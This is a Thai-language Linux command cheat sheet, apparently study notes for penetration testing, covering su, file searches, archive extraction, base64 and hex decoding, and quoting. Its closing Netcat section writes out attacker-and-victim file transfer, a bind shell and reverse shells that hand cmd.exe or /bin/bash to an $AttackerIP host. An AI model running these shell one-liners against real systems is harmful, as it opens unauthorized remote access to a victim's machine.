 # Linux Command 

**คำสั่ง su** เป็นคำสั่งที่ใช้ในการ login ด้วย user id อื่น โดยการสร้าง login session ใหม่หลังจาก ระบุ username ด้วยคำสั่ง su <username> ต้องทำการกรอก password ให้ถูกต้อง แต่สำหรับ session ที่เป็น user root อยู่แล้ว ไม่จำเป็นต้องกรอก password สำหรับการ su ไป user อื่น ๆ ที่อยู่ภายในระบบ
```bash
# Login ด้วย User ชื่อ icesuntisuk
su icesuntisuk
```
การกำหนดตัวแปร เพื่อนำไปใช้ในคำสั่งอื่น ๆ ตามที่ต้องการ

```bash
ipaddr=192.168.1.0/24
echo $ipaddr
# 192.168.1.0/24
```

คำสั่ง Locate ใช้สำหรับค้นหาไฟล์ในระบบ 	

```bash
locate shell.php
```

ค้นหาข้อมูลภายใต้ไดเร็กทอรี่หรือตัวแปร $PATH 	

```bash
which bash
```	

การค้นหาไฟล์จากชื่อที่ระบุภายใต้ Root Path 

```bash
find / -name shell\*	
```	
การ Unzip ไฟล์ชนิด gz

```bash
gunzip abc.gz	
```	

การ Unzip ไฟล์ชนิด tar.gz

```bash
tar -xzvf abc.tar.gz	
```	

การตรวจสอบข้อมูลภายใต้ไฟล์ Word หรือ .docx

```bash
unzip -p abc.docx word/document.xml | sed -e 's/<[^>]\{1,\}>//g; s/[^[:print:]]\{1,\}//g'	
```	

การดาวโหลดข้อมูลจาก Webpage

```bash
wget http://www.abc.com	
```	

การ Decode ด้วย Base 64

```bash
echo -n "aWNlc3VudGlzdWs=" | base64 --decode
```

การ Decode เลขฐาน 16 

```bash
echo -n "69 63 65 73 75 6e 74 69 73 75 6b" | xxd -r -ps 
```

Escaping script			
```bash		
#Escape Double quote (") inside Double quote by adding back slash (\)		
#echo "Note:"Icesuntisuk's git""		
echo "Note:\"Icesuntisuk's git\""		
			
#Escape Single quote (') inside Single quote by adding '\'		
#echo 'Note:"Icesuntisuk's git"'		
echo 'Note:"Icesuntisuk'\''s git"'		
```
การใช้งาน Netcat 
```bash	
#Connect to POP3 port 
nc -nv $ipaddr 110

#Listen on TCP/UDP port		
nc -nlvp 4444

#Transferring Files		
#Victim:	
nc -nlvp 4444 > incoming.exe
#Attacker: 	
nc -nv $VictimIP 4444 < /usr/share/windows-binaries/wget.exe

#Bind Shell	
#Victim:	
nc -nlvp 4444 -e cmd.exe
#Attacker: 	
nc -nv $VictimIP 4444

//Reverse Shell	
#Attacker:	 
nc -nlvp 4444
#Victim(Windows):	  
nc -nv $AttackerIP 4444 -e cmd.exe
#Victim(Linux):	  
nc -nv $AttackerIP 4444 -e /bin/bash
```

การใช้ Python สำหรับเปืด Webserver 

```python	
#การเปิด Web Server port 8000 บน Directory ปัจจุบัน
python3 -m http.server 8000
```
